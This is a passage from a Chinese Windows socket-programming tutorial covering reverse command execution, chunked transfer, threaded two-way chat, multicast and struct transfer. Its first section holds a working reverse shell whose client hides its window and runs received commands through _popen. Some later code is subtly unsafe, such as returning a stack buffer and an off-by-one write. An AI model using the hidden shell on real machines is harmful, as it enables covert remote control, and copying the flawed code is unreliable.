如下代码实现了一个基于`Windows`平台的简单`TCP`反向`shell`。该程序可以监听本地的某一端口（默认为 8888），并等待外部客户端的连接。当有新的客户端连接时，程序会等待用户在终端上输入要执行的命令，并将该命令发送给客户端。客户端执行该命令并将执行结果回显到服务端，服务端则将回显结果输出到终端上。
```c
#include <WinSock2.h>
#include <Windows.h>
#include <stdio.h>

#pragma comment(lib,"ws2_32.lib")

int main(int argc, char *argv[])
{
  WSADATA wsaData;
  SOCKET sock, Sclient;
  struct sockaddr_in sin, client;
  int nAddrLen = sizeof(client);

  // 初始化套接字库
  WSAStartup(MAKEWORD(2, 2), &wsaData);

  // 初始化Socket
  sock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);

  // 填充变量
  sin.sin_family = AF_INET;
  sin.sin_port = htons(8888);
  sin.sin_addr.S_un.S_addr = INADDR_ANY;

  // 绑定套接字
  bind(sock, (struct sockaddr*) & sin, sizeof(sin));

  char buf[40960] = { 0 };

  // 循环等待套接字事件
  while (1)
  {
    // 侦听套接字
    if (listen(sock, 20) != SOCKET_ERROR)
    {
      // 有链接时则接收
      Sclient = accept(sock, (SOCKADDR*)&client, &nAddrLen);
      int input_len = 0;

      char send_cmd[2048] = { 0 };
      printf("[%s:%5d] # ", inet_ntoa(client.sin_addr), htons(client.sin_port));

      // 输入数据,以回车键为结束标识
      while ((send_cmd[input_len++] = getchar()) != '\n')
      {
        ;
      }

      // 发送输入的命令
      send(Sclient, send_cmd, sizeof(send_cmd), 0);

      // 循环接收回显
      while (recv(Sclient, buf, sizeof(buf), 0) > 0)
      {
        printf("%s", buf);
        memset(buf, 0, sizeof(buf));
      }
    }

    // 关闭通信
    closesocket(Sclient);
  }

  // 关闭库
  WSACleanup();
  return 0;
}
```

#### 14.2.2 客户端实现

客户端实现首先在开头部分通过增加一个链接器选项，该选项的作用是启动程序时不显示命令行窗口一次来实现隐藏窗体的目的，在程序中通过`recv()`函数在服务端接收一条命令行参数，并通过调用`_popen(buf, "r")`执行本地命令行并将输出结果保存在`buf`变量内，最后通过调用`send()`函数将执行结果发送给服务端，以此来实现反向命令执行的功能；

```c
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")
#include <WinSock2.h>
#include <Windows.h>
#include <stdio.h>

#pragma comment(lib,"ws2_32.lib")

int main(int argc, char *argv[])
{
  WSADATA wsaData;
  SOCKET socks;
  struct sockaddr_in sin;
  CHAR buf[1024];

  // 初始化套接字库
  WSAStartup(MAKEWORD(2, 2), &wsaData);

  while (1)
  {
    socks = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    sin.sin_family = AF_INET;
    sin.sin_port = htons(8888);
    sin.sin_addr.S_un.S_addr = inet_addr("127.0.0.1");

    // 连接到远程
    if (connect(socks, (struct sockaddr*) &sin, sizeof(sin)) != SOCKET_ERROR)
    {
      // buf 里面就是接收到的执行命令行
      memset(buf, 0, sizeof(buf));
      int ret = recv(socks, buf, sizeof(buf), 0);
      if (ret > 0)
      {
        char recv_data[1024] = { 0 };
        
        // 执行远程命令
        FILE *fp = _popen(buf, "r");

        // 循环读取并发送数据,每次发送1024字节
        while (fgets(recv_data, 1024, fp) != NULL)
        {
          send(socks, recv_data, sizeof(recv_data), 0);
          fprintf(stderr, "%s", recv_data);
          memset(recv_data, 0, sizeof(recv_data));
          Sleep(10);
        }
      }
    }
    memset(buf, 0, sizeof(buf));
    closesocket(socks);
    Sleep(1);
  }
  WSACleanup();
  return 0;
}
```

读者可自行编译并运行这两个程序，首先运行服务端接着运行客户端，当服务端接收到上线消息后，读者可自行执行一些系统命令，此时会看到客户端的输出效果如下图所示；



### 14.3 Socket 字符串分块传输

首先为什么要实行分块传输字符串，一般而言`Socket`套接字最长发送的字节数为`8192`字节，如果发送的字节超出了此范围则后续部分会被自动截断，此时将字符串进行分块传输将显得格外重要，分块传输的关键在于封装实现一个字符串切割函数，将特定缓冲区内的字串动态切割成一个个小的子块，当切割结束后会得到该数据块的个数，此时通过套接字将个数发送至服务端此时服务端在依次循环接收数据包直到接收完所有数据包之后在组合并显示即可。

#### 14.3.1 服务端实现

对于服务端而言只需要做两步，首先等待客户端上线，当客户端上线后则服务端会通过`recv()`接收当前客户端内有多少数据包，当获取到该数据包数量后再以此数量作为循环条件，循环接收数据包并在接收后通过`strcat`将数据包进行连接，最终合并为一个缓冲区，并输出即可；
```c
#include <WinSock2.h>
#include <Windows.h>
#include <iostream>

#pragma comment(lib,"ws2_32.lib")

int main(int argc, char* argv[])
{
    WSADATA WSAData;
    SOCKET sock, msgsock;
    struct sockaddr_in ServerAddr;

    if (WSAStartup(MAKEWORD(2, 0), &WSAData) != SOCKET_ERROR)
    {
        ServerAddr.sin_family = AF_INET;
        ServerAddr.sin_port = htons(9999);
        ServerAddr.sin_addr.s_addr = INADDR_ANY;

        sock = socket(AF_INET, SOCK_STREAM, 0);
        bind(sock, (LPSOCKADDR)&ServerAddr, sizeof(ServerAddr));
        listen(sock, 10);
    }

    msgsock = accept(sock, (LPSOCKADDR)0, (int*)0);

    // 接收需要获取的次数
    char recv_count[1024] = { 0 };
    recv(msgsock, recv_count, 1024, 0);
    std::cout << "收包次数: " << recv_count << std::endl;
                
    // 循环收包,并将数据包放入到此变量中
    char szBuffer[8192] = { 0 };

    for (int x = 0; x < atoi(recv_count); x++)
    {
        char Split[128] = { 0 };
        recv(msgsock, Split, 100, 0);

        // std::cout << "收到数据包: " << Split << std::endl;
        strcat(szBuffer, Split);
    }

    std::cout << "完整数据包: " << szBuffer << std::endl;
    closesocket(msgsock);
    closesocket(sock);
    WSACleanup();
    return 0;
}
```

#### 14.3.2 客户端实现

我们将一段长字符串进行切割每次发送100个字符，该功能的实现首先依赖于`Cat`函数，该函数通过传入待切割字符串指针，切割偏移以及长度，即可实现分割字符串，如下代码中通过调用`Cat(szBuffer, x, 99)`切割字符串，这里我们每次剪切100个字符，并将剪切后的字符依次存储到`Split[y]`这个缓冲区内，接着通过调用`strlen()`依次计算出当前有多少个100字符行，并在计算结束后首先向服务端发送数据包的数量，当服务端接收到数量后会进入等待模式，此时客户端只需要通过循环的方式发送数据包即可，当然此段代码也存在问题，没有对数据包进行严格的验证，此处读者可自行完善；
```c
#include <WinSock2.h>
#include <Windows.h>
#include <iostream>

#pragma comment(lib,"ws2_32.lib")

char* Cat(char* buffer, int offset, int length)
{
    char Split[100] = { 0 };

    // 每100个字符切割一次
    memset(Split, 0, 100);
    strncpy(Split, buffer + offset, length);
    return Split;
}

int main(int argc, char* argv[])
{
    WSADATA WSAData;
    SOCKET sock;
    struct sockaddr_in ClientAddr;

    if (WSAStartup(MAKEWORD(2, 0), &WSAData) != SOCKET_ERROR)
    {
        ClientAddr.sin_family = AF_INET;
        ClientAddr.sin_port = htons(9999);
        ClientAddr.sin_addr.s_addr = inet_addr("127.0.0.1");

        sock = socket(AF_INET, SOCK_STREAM, 0);
        int Ret = connect(sock, (LPSOCKADDR)&ClientAddr, sizeof(ClientAddr));
        if (Ret == 0)
        {
            char szBuffer[8192] = "hello lyshark hello lyshark hello lyshark ";
            char Split[100][1024] = { 0 };

            // 每次剪切100个字符
            for (int x = 0, y = 0; x < strlen(szBuffer); x += 99)
            {
                char* ref = Cat(szBuffer, x, 99);
                strcpy(Split[y], ref);
                y += 1;
            }

            // 计算当前有多少个100字符行
            int rows = sizeof(Split) / sizeof(Split[0]);
            int count = 0;
            for (int x = 0; x < rows; x++)
            {
                if (strlen(Split[x]) != 0)
                {
                    count += 1;
                }
            }

            // 将发送数据包次数发送给服务端
            std::cout << "发包次数: " << count << std::endl;
            char send_count[1024] = { 0 };
            sprintf(send_count, "%d", count);
            send(sock, send_count, strlen(send_count), 0);

            // 循环发送数据包
            for (int x = 0; x < count; x++)
            {
                std::cout << "发送数据包: " << Split[x] << std::endl;
                send(sock, Split[x], strlen(Split[x]), 0);
            }
        }
    }
    closesocket(sock);
    WSACleanup();
    Sleep(5000);
    return 0;
}
```

运行上述程序片段，读者可看到如下图所示的输出效果，此处只需要分割8个数据包即可完成数据的发送；



### 14.4 Socket 双向数据通信

所谓双向数据传输指的是客户端与服务端之间可以无差异的实现数据交互，此类功能实现的核心原理是通过创建`CreateThread()`函数多线程分别接收和发送数据包，这样一旦套接字被建立则两者都可以异步发送消息，本章将实现简单的双向交互功能，首先我们需要封装两个函数，这里`RecvFunction`函数用于接收数据，`SendFunction`函数则用于发送数据，这两段代码在服务端与客户端之间是一致的两者可被共用。

```c
#include <iostream>
#include <Winsock2.h>　
#include <windows.h>
#pragma comment (lib, "ws2_32")
#define BUF_SIZE 6400

// 接收数据线程
DWORD WINAPI RecvFunction(LPVOID lpParam)
{
  SOCKET sClient = *(SOCKET*)lpParam;
  int retVal;
  char bufRecv[BUF_SIZE];
  memset(bufRecv, 0, sizeof(bufRecv));
  while (1)
  {
    retVal = recv(sClient, bufRecv, BUF_SIZE, 0);
    if (retVal == SOCKET_ERROR)
    {
      printf("返回错误 \n");
      break;
    }
    else
    {
      printf("收到服务器消息: %s \n", bufRecv);
    }
  }
  return 0;
}

// 发送数据线程
DWORD WINAPI SendFunction(LPVOID lpParam)
{
  SOCKET sClient = *(SOCKET*)lpParam;
  int retVal;
  char bufSend[BUF_SIZE];
  memset(bufSend, 0, sizeof(bufSend));
  while (1)
  {
    gets_s(bufSend);
    retVal = send(sClient, bufSend, strlen(bufSend) + sizeof(char), 0);
    if (retVal == SOCKET_ERROR)
    {
      printf("发送错误 \n");
      break;
    }
  }
  return 0;
}
```

#### 14.4.1 服务端实现

对于服务端代码而言，一旦`accept`函数接收到有客户端连接后则自动将该`sClient`指针传输到子线程内执行，这样即可实现两者功能互不干扰。程序中通过使用`CreateThread`函数创建了两个线程来处理与客户端之间的发送和接收数据。将`SendFunction`和`RecvFunction`作为参数传递给线程，并与新的客户端套接字一起传递。线程存储在变量`hThread1`和`hThread2`中。

```c
int main(int argc, char* argv[])
{
  // 初始化套接字动态库
  WSADATA wsaData;
  if (WSAStartup(MAKEWORD(2, 2), &wsaData) != 0)
  {
    return 1;
  }

  //  创建服务段套接字
  SOCKET sServer = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
  if (sServer == INVALID_SOCKET)
  {
    WSACleanup();
    return -1;
  }

  //  服务端地址
  sockaddr_in addrServ;
  addrServ.sin_family = AF_INET;
  addrServ.sin_port = htons(9999);
  addrServ.sin_addr.s_addr = htonl(INADDR_ANY);

  //  绑定套接字
  if (bind(sServer, (const struct sockaddr*)&addrServ, sizeof(addrServ)) == SOCKET_ERROR)
  {
    closesocket(sServer);
    WSACleanup();
    return -1;
  }

  //  监听套接字
  if (listen(sServer, 5) == SOCKET_ERROR)
  {
    closesocket(sServer);
    WSACleanup();
    return -1;
  }

  SOCKET sClient;
  sockaddr_in addrClient;
  int addrClientLen = sizeof(addrClient);

  // 接收数据
  sClient = accept(sServer, (sockaddr FAR*) & addrClient, &addrClientLen);
  if (sClient == INVALID_SOCKET)
  {
    closesocket(sServer);
    WSACleanup();
    return -1;
  }

  printf("接收客户端 IP:[%s] --> port:[%d] \n", inet_ntoa(addrClient.sin_addr), ntohs(addrClient.sin_port));

  // 分配线程
  HANDLE hThread1, hThread2;

  hThread1 = CreateThread(NULL, NULL, SendFunction, (LPVOID*)&sClient, 0, 0);
  hThread2 = CreateThread(NULL, NULL, RecvFunction, (LPVOID*)&sClient, 0, 0);

  WaitForSingleObject(hThread1, INFINITE);
  WaitForSingleObject(hThread2, INFINITE);
  CloseHandle(hThread1);
  CloseHandle(hThread2);

  closesocket(sClient);
  WSACleanup();
  return 0;
}
```

#### 14.4.2 客户端实现

客户端的实现与服务端保持一致，唯一的区别在于客户端通过`connect()`主动向服务端发送连接请求，只要有新的连接被建立则将通过`CreateThread`函数创建线程，`SendFunction`与`RecvFunction`函数分别用于发送与接收功能。

```c
int main(int argc, char* argv[])
{
  WSADATA wsaData;

  // 初始化库
  if (WSAStartup(MAKEWORD(2, 2), &wsaData) != 0)
  {
    return 1;
  }

  //  服务器套接字
  SOCKET sHost = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
  if (sHost == INVALID_SOCKET)
  {
    WSACleanup();
    return -1;
  }

  SOCKADDR_IN servAddr;
  servAddr.sin_family = AF_INET;
  servAddr.sin_addr.S_un.S_addr = inet_addr("127.0.0.1");
  servAddr.sin_port = htons(9999);

  //  连接服务器
  if (connect(sHost, (LPSOCKADDR)&servAddr, sizeof(servAddr)) == SOCKET_ERROR)
  {
    closesocket(sHost);
    WSACleanup();
    return -1;
  }

  printf("连接到服务器 IP:[%s] --> port:[%d] \n", inet_ntoa(servAddr.sin_addr), ntohs(servAddr.sin_port));


  // 分别创建两个线程
  HANDLE hThread1, hThread2;

  hThread1 = CreateThread(NULL, NULL, SendFunction, (LPVOID)&sHost, 0, 0);
  hThread2 = CreateThread(NULL, NULL, RecvFunction, (LPVOID)&sHost, 0, 0);

  WaitForSingleObject(hThread1, INFINITE);
  WaitForSingleObject(hThread2, INFINITE);

  CloseHandle(hThread1);
  CloseHandle(hThread2);

  closesocket(sHost);
  WSACleanup();
  return 0;
}
```

编译并运行这两个程序，读者可自行测试，不论是在服务端还是客户端均可以实现双向数据通信功能，输出效果如下图所示；



### 14.5 Socket 应用组播通信

组播通信是一种基于UDP协议的网络通信方式，它允许发送方将消息同时传递给多个接收方。在组播通信中，发送方和接收方都会加入一个共同的组播组，这个组播组对应一个特定的IP地址，所有加入该组播组的主机都能够接收到发送方发送的消息。组播通信可以有效地减少网络流量和网络负载，因为在传统的点对点通信方式下，每个消息都需要单独传输到每个接收方，而在组播通信中，每个消息只需要传输一次，就可以同时传递给多个接收方。

在使用组播模式时，需要在套接字上使用`setsockopt()`函数来设置套接字的`IP_MULTICAST_IF`选项，指定本地主机的出站接口地址，用于发送组播数据包。此外，还可以设置`IP_ADD_MEMBERSHIP`选项，将套接字加入到一个特定的组播组中，以便接收该组播组中的数据包。

在使用组播模式时需要读者注意，组播模式需要使用特定的IP地址范围，如`224.0.0.0~239.255.255.255`，且需要确保组播组内的所有成员都在同一个网络中。同时，组播模式也不保证数据传输的可靠性，因为UDP本身就是无连接的协议，所以需要在应用程序中自行处理数据丢失或重复的情况。

#### 14.5.1 服务端实现

先来实现服务端代码，首先我们定义一个端口号`PORT=9999`并定义好组名`GROUP="225.1.2.3"`，接着通过调用两次`setsockopt`函数，第一次调用指定传入`SO_REUSEADDR`参数设置为组播模式，第二次调用指定传入`IP_ADD_MEMBERSHIP`用于设置组，经过两次设置服务端将被绑定到GROUP指定的组名上面，并在底部`recvfrom`循环等待数据包的到达，当数据包到达后则直接通过`sendto`发送一个消息给上线客户端。

```c
#include <winsock.h>
#include <iostream>

#pragma comment(lib, "wsock32.lib")
#define PORT  9999
#define GROUP "225.1.2.3"

using namespace std;

int main(int argc, char *argv[])
{
  WSADATA wsaData;
  struct sockaddr_in addr;
  int fd;
  struct ip_mreq mreq;

  // 初始化套接字
  if (WSAStartup(MAKEWORD(2, 2), &wsaData) != 0)
  {
    std::cout << "初始化失败" << std::endl;
    return 0;
  }

  // 创建套接字 SOCK_DGRAM 采用UDP
  if ((fd = socket(AF_INET, SOCK_DGRAM, 0)) < 0)
  {
    std::cout << "套接字创建失败" << std::endl;
    return 0;
  }

  // 设置套接字为组播模式
  u_int yes = 1;
  if (setsockopt(fd, SOL_SOCKET, SO_REUSEADDR, (char *)&yes, sizeof(yes)) < 0)
  {
    std::cout << "设置组播模式失败" << std::endl;
    return 0;
  }

  memset(&addr, 0, sizeof(addr));
  addr.sin_family = AF_INET;
  addr.sin_addr.s_addr = htonl(INADDR_ANY);
  addr.sin_port = htons(PORT);

  // 绑定套接字
  if (bind(fd, (struct sockaddr *) &addr, sizeof(addr)) < 0)
  {
    std::cout << "绑定失败" << std::endl;
    return 0;
  }

  // 设置组播模式中的组信息
  mreq.imr_multiaddr.s_addr = inet_addr(GROUP);
  mreq.imr_interface.s_addr = htonl(INADDR_ANY);

  // 设置组
  if (setsockopt(fd, IPPROTO_IP, IP_ADD_MEMBERSHIP, (char *)&mreq, sizeof(mreq)) < 0)
  {
    int err = GetLastError();
    std::cout << "设置组失败: " << err << std::endl;
    return 0;
  }

  // 循环手法数据
  while (1)
  {
    char recv_buffer[4096];
    int addrlen = sizeof(addr);
    int nbytes;

    // 接收组播数据
    if ((nbytes = recvfrom(fd, recv_buffer, 4096, 0, (struct sockaddr *) &addr, (int *)&addrlen)) < 0)
    {
      std::cout << "接收数据包失败" << std::endl;
      return 0;
    }
    recv_buffer[nbytes] = '\0';
    std::cout << "接收组播数据包: " << recv_buffer << std::endl;

    // 发送组播数据包
    char send_buffer[4096] = "server mesage";
    sendto(fd, send_buffer, strlen(send_buffer), 0, (struct sockaddr *) &addr, sizeof(addr));
  }

  return 0;
}
```

#### 14.5.2 客户端实现

在组播模式中客户端的修改部分很简单，仅仅只需通过`socket(AF_INET, SOCK_DGRAM, 0)`函数设置套接字为UDP模式，并填充组名即可，其他通信模式与UDP保持一致。

```c
#include <winsock.h>
#include <iostream>

#pragma comment(lib, "wsock32.lib")
#define PORT  9999
#define GROUP "225.1.2.3"

using namespace std;

int main(int argc, char *argv[])
{
  WSADATA wsaData;
  struct sockaddr_in addr;
  int fd;

  // 初始化套接字
  if (WSAStartup(MAKEWORD(2, 2), &wsaData) != 0)
  {
    std::cout << "初始化失败" << std::endl;
    return 0;
  }

  // 创建套接字 SOCK_DGRAM 采用UDP
  if ((fd = socket(AF_INET, SOCK_DGRAM, 0)) < 0)
  {
    std::cout << "套接字创建失败" << std::endl;
    return 0;
  }

  // 设置组播模式组信息
  memset(&addr, 0, sizeof(addr));
  addr.sin_family = AF_INET;
  addr.sin_addr.s_addr = inet_addr(GROUP);
  addr.sin_port = htons(PORT);

  // 循环
  while (1)
  {
    // 发送组播数据包
    char send_buffer[4096] = "Hello, World!";
    if (sendto(fd, send_buffer, strlen(send_buffer), 0, (struct sockaddr *) &addr, sizeof(addr)) < 0)
    {
      std::cout << "发送失败" << std::endl;
      return 0;
    }

    // 接收组播数据
    int addrlen = sizeof(addr);
    char recv_buffer[4096] = { 0 };
    recvfrom(fd, recv_buffer, 4096, 0, (struct sockaddr *) &addr, (int *)&addrlen);
    std::cout << "接收组播数据包: " << recv_buffer << std::endl;
    Sleep(1000);
  }
  return 0;
}
```

读者可自行编译上述代码，运行一个服务端并运行多个客户端即可观察组播收发情况，如下图所示；



### 14.6 Socket 应用结构体传输

当在套接字编程中传输结构体时，可以将结构体序列化为字符串（即把结构体的所有成员打包成一个字符串），然后将字符串通过套接字传输到对端，接收方可以将字符串解析为结构体，然后使用其中的成员数据。这种方法通常被称为序列化（Serialization）和反序列化（Deserialization），本章中我们可以采用将一个结构体序列化为一个纯字符串，然后将该字符串通过套接字传输给对端，当对端收到后只需要将字节序强制转换为对等的结构体指针即可实现对该结构的解析。

#### 14.6.1 服务端实现

首先来看服务端的实现流程，笔者定义了`message`结构体变量，代码中在接收到套接字传输过来的字符串之后，通过`(message*)recv_buf`的方式将该套接字强制转换为一个结构体指针，并赋值给`message* msg`指针，此时在服务端则可通过`->`的方式输出当前结构体内的完整成员参数。

```c
#include <iostream>
#include <winsock2.h>

#pragma comment(lib,"ws2_32.lib")

// 定义一个自定义结构体
typedef struct
{
  unsigned short uuid;
  char HostName[32];
  char Buffer[32];

  struct
  {
    char HostAddress[1024];
    char HostPassword[1024];
    char HostPort[1024];
  }HostInfo;

  unsigned short cmd_type;
}message;

int main(int argc, char* argv[])
{
  WSADATA WSAData;
  SOCKET sock;

  WSAStartup(MAKEWORD(2, 0), &WSAData);
  sock = socket(AF_INET, SOCK_STREAM, 0);
  if (sock == INVALID_SOCKET)
  {
    std::cout << "创建套接字失败" << std::endl;
  }

  struct sockaddr_in ServerAddr;
  ServerAddr.sin_family = AF_INET;
  ServerAddr.sin_port = htons(9999);
  ServerAddr.sin_addr.s_addr = INADDR_ANY;

  // 绑定套接字
  auto res = bind(sock, (LPSOCKADDR)&ServerAddr, sizeof(ServerAddr));
  if (res == SOCKET_ERROR)
  {
    std::cout << "绑定失败" << std::endl;
  }

  // 侦听套接字
  res = listen(sock, 10);
  if (res == SOCKET_ERROR)
  {
    std::cout << "侦听失败" << std::endl;
  }

  SOCKET msgsock;

  // 用于接收结构
  char recv_buf[4096] = { 0 };

  msgsock = accept(sock, (LPSOCKADDR)0, (int*)0);
  if (msgsock != INVALID_SOCKET)
  {
    recv(msgsock, recv_buf, sizeof(recv_buf), 0);

    // 接收到结构,强制类型转换
    message* msg = (message*)recv_buf;

    std::cout << "ID: " << msg->uuid << " 主机名: " << msg->HostName
      << " 数据包: " << msg->Buffer << " 主机地址: " << msg->HostInfo.HostAddress
      << "主机密码: " << msg->HostInfo.HostPassword << std::endl;
  }

  closesocket(sock);
  WSACleanup();
  return 0;
}
```

#### 14.6.2 客户端实现

对于客户端来说，在定义好全局`message`结构体之后直接通过字符串拷贝方法实现对全局结构的填充，当全局结构体被填充后直接使用`memcpy(send_buf, &msg, sizeof(message))`将该结构体的字节拷贝到`send_buf`这个缓冲区内，最后调用`send()`发送这段缓冲区即可实现。

```c
#include <iostream>
#include <winsock2.h>

#pragma comment(lib,"ws2_32.lib")

// 定义一个自定义结构体
typedef struct
{
  unsigned short uuid;
  char HostName[32];
  char Buffer[32];

  struct
  {
    char HostAddress[1024];
    char HostPassword[1024];
    char HostPort[1024];
  }HostInfo;

  unsigned short cmd_type;
}message;

// 定义变量
message msg;

int main(int argc, char* argv[])
{
  WSADATA WSAData;
  SOCKET sock;

  WSAStartup(MAKEWORD(2, 0), &WSAData);
  sock = socket(AF_INET, SOCK_STREAM, 0);
  if (sock == INVALID_SOCKET)
  {
    std::cout << "创建套接字失败" << std::endl;
  }

  struct sockaddr_in ClientAddr;
  ClientAddr.sin_family = AF_INET;
  ClientAddr.sin_port = htons(9999);
  ClientAddr.sin_addr.s_addr = inet_addr("127.0.0.1");

  // 链接对端
  auto res = connect(sock, (LPSOCKADDR)&ClientAddr, sizeof(ClientAddr));
  if (res == SOCKET_ERROR)
  {
    std::cout << "链接失败." << std::endl;
  }

  // 首先需要定义一个变量
  char send_buf[4096] = { 0 };

  // 拷贝外部变量
  msg.uuid = 1001;
  strcpy(msg.HostName, "lyshark PC");
  strcpy(msg.Buffer, "hello world");

  // 拷贝内部HostInfo
  strcpy(msg.HostInfo.HostAddress, "192.168.1.1");
  strcpy(msg.HostInfo.HostPassword, "12345678");
  strcpy(msg.HostInfo.HostPort, "8888");

  // 拷贝内部Type
  msg.cmd_type = 1;

  // 发送字节序
  memcpy(send_buf, &msg, sizeof(message));
  send(sock, send_buf, sizeof(send_buf), 0);

  closesocket(sock);
  WSACleanup();
  return 0;
}
```

运行上述代码片段，读者可看到结构体已被正确的传输给服务端，效果图如下所示；



### 14.7 Socket 循环结构体传输

在上述内容中笔者通过一个简单的案例给大家介绍了在套接字编程中如何传递结构体数据，本章将继续延申结构体传输，在某些时候例如我们需要传输一些当前系统的进程列表信息，或者是当前主机中的目录文件，此时就需要使用循环结构体传输功能，循环传输结构体的关键点在于，客户端发送结构体数据之前需要通过一次通信来告诉服务端需要接收的次数，当服务端接收到次数时则可利用接收计数器依次循环接收数据直到客户端完整所有数据包的发送。

#### 14.7.1 服务端实现

多条结构体的传输方式与单条从原理上一致，只是多条结构体在传输时需要提前告知服务端我需要分几次将结构体传输给对方，因为数据包最大单次可发送`8192`字节，所以如果结构过多则需要分批次进行传输，如下是服务端实现代码片段，在代码中首先我们接收客户端发来的循环次数，该次数是一个字符串类型的，为了能用于循环体内，需要通过`atoi(count)`将其转换为一个整数，接着就是在循环体内不断地调用`recv`函数接收数据包，直到循环结束为止。

```c
#include <iostream>
#include <winsock2.h>

#pragma comment(lib,"ws2_32.lib")

typedef struct
{
  char HostName[32];
  char Buffer[32];
}message;

int main(int argc, char* argv[])
{
  WSADATA WSAData;
  SOCKET sock;

  WSAStartup(MAKEWORD(2, 0), &WSAData);
  sock = socket(AF_INET, SOCK_STREAM, 0);
  if (sock == INVALID_SOCKET)
  {
    std::cout << "创建套接字失败" << std::endl;
  }

  struct sockaddr_in ServerAddr;
  ServerAddr.sin_family = AF_INET;
  ServerAddr.sin_port = htons(9999);
  ServerAddr.sin_addr.s_addr = INADDR_ANY;

  auto res = bind(sock, (LPSOCKADDR)&ServerAddr, sizeof(ServerAddr));
  if (res == SOCKET_ERROR)
  {
    std::cout << "绑定失败" << std::endl;
  }

  res = listen(sock, 10);
  if (res == SOCKET_ERROR)
  {
    std::cout << "侦听失败" << std::endl;
  }

  SOCKET msgsock;

  msgsock = accept(sock, (LPSOCKADDR)0, (int*)0);
  if (msgsock != INVALID_SOCKET)
  {
    // 接收循环次数
    char count[32] = { 0 };
    int recv_count_flag = recv(msgsock, count, sizeof(count), 0);
    if (recv_count_flag != 0)
    {
      // 得到需要循环接收的次数
      int index = atoi(count);
      std::cout << "总共循环接收: " << count << " 次" << std::endl;
      
      for (int x = 0; x < index; x++)
      {
        char recv_buf[4096] = { 0 };

        // 循环输出接收结果
        int recv_flag = recv(msgsock, recv_buf, sizeof(recv_buf), 0);
        if (recv_flag != 0)
        {
          // 接收到结构,强制类型转换
          message* msg = (message*)recv_buf;

          std::cout << "用户名: " << msg->HostName << "数据: " << msg->Buffer << std::endl;

          // 发送成功标志
          send(msgsock, "success", 7, 0);
        }
      }
    }
  }

  closesocket(sock);
  WSACleanup();
  return 0;
}
```

#### 14.7.2 客户端实现

相对于服务端而言，客户端首先需要准备好一个待发送结构体链表，此处通过使用`vector<message>`的方式接收结构体链表，并通过`sprintf()`函数将循环次数由整数格式化为字符串，并将次数发送给服务端，当服务端接收到发送次数后会等待客户端向其发送对应数量的结构体，此时客户端只需要`send`循环发送即可。

```c
#include <iostream>
#include <vector>
#include <winsock2.h>

#pragma comment(lib,"ws2_32.lib")

using namespace std;

typedef struct
{
  char HostName[32];
  char Buffer[32];
}message;

message msg;

int main(int argc, char* argv[])
{
  WSADATA WSAData;
  SOCKET sock;

  WSAStartup(MAKEWORD(2, 0), &WSAData);
  sock = socket(AF_INET, SOCK_STREAM, 0);
  if (sock == INVALID_SOCKET)
  {
    std::cout << "创建套接字失败" << std::endl;
  }

  struct sockaddr_in ClientAddr;
  ClientAddr.sin_family = AF_INET;
  ClientAddr.sin_port = htons(9999);
  ClientAddr.sin_addr.s_addr = inet_addr("127.0.0.1");

  auto res = connect(sock, (LPSOCKADDR)&ClientAddr, sizeof(ClientAddr));

  if (res == SOCKET_ERROR)
  {
    std::cout << "链接失败." << std::endl;
  }

  // 模拟元素填充
  std::vector<message> vect;

  for (int x = 0; x < 10; x++)
  {
    message ptr;
    // 填充参数
    sprintf(ptr.HostName, "lyshark %d", x);
    sprintf(ptr.Buffer, "hello lyshark %d", x);
    vect.push_back(ptr);
  }

  // 发送循环次数
  char count[32] = { 0 };

  // 整数转为字符串
  sprintf(count, "%d", vect.size());

  int send_count_flag = send(sock, count, sizeof(count), 0);

  if (send_count_flag != 0)
  {
    std::cout << "发送循环次数: " << count << std::endl;

    // 循环发送数据
    for (int x = 0; x < vect.size(); x++)
    {
      char send_buf[4096] = { 0 };

      // 发送字节序
      memcpy(send_buf, &vect[x], sizeof(message));
      int send_flag = send(sock, send_buf, sizeof(send_buf), 0);
      if (send_flag != 0)
      {
        char recv_buf[32] = { 0 };
        recv(sock, recv_buf, sizeof(recv_buf), 0);
        std::cout << "发送完成,接收状态码: " << recv_buf << std::endl;
      }
    }
  }

  closesocket(sock);
  WSACleanup();
  return 0;
}
```

至此读者可分别编译并运行服务端与客户端，此时会看到如下图所示的结构体输出；



### 14.8 Socket 一收一发通信

通常情况下我们在编写套接字通信程序时都会实现一收一发的通信模式，当客户端发送数据到服务端后，我们希望服务端处理请求后同样返回给我们一个状态值，并以此判断我们的请求是否被执行成功了，另外增加收发同步有助于避免数据包粘包问题的产生，在多数开发场景中我们都会实现该功能。

Socket粘包是指在使用TCP协议传输数据时，发送方连续向接收方发送多个数据包时，接收方可能会将它们合并成一个或多个大的数据包，而不是按照发送方发送的原始数据包拆分成多个小的数据包进行接收。

造成粘包的原因主要有以下几个方面：

 - TCP协议的特性：TCP是一种面向连接的可靠传输协议，保证了数据的正确性和可靠性。在TCP协议中，发送方和接收方之间建立了一条虚拟的连接，通过三次握手来建立连接。当数据在传输过程中出现丢失、损坏或延迟等问题时，TCP会自动进行重传、校验等处理，这些处理会导致接收方在接收数据时可能会一次性接收多个数据包。
 - 缓冲区的大小限制：在接收方的缓冲区大小有限的情况下，如果发送方发送的多个小数据包的总大小超过了接收方缓冲区的大小，接收方可能会将它们合并成一个大的数据包来接收。
 - 数据的处理方式：接收方在处理数据时，可能会使用不同的方式来处理数据，比如按照字节流方式读取数据，或者按照固定长度读取数据等方式。不同的处理方式可能会导致接收方将多个数据包合并成一个大的数据包。

如果读者是一名`Windows`平台开发人员并从事过网络套接字开发，那么一定很清楚此缺陷的产生，当我们连续调用`send()`时就会产生粘包现象，而解决此类方法的最好办法是在每次`send()`后调用一次`recv()`函数接收一个返回值，至此由于数据包不连续则也就不会产生粘包的现象。

#### 14.8.1 服务端实现

服务端我们实现的功能只有一个接收，其中`RecvFunction`函数主要用于接收数据包，通过使用`recv`函数接收来自`socket`连接通道的数据，并根据接收到的数据判断条件，决定是否发送数据回应。如果接收到的数据中命令参数满足`command_int_a=10`和`command_int_b=20`，那么该函数会构建一个新的数据包，将其发送回客户端，其中包括一个表示成功执行的标志、一个包含欢迎信息的字符串以及其他数据信息。如果接收到的数据命令参数不满足上述条件，则函数会构建一个新的数据包，将其发送回客户端，其中只包括一个表示执行失败的标志。最后，函数返回一个`BOOL`类型的布尔值，表示接收函数是否成功执行。

```c
#include <iostream>
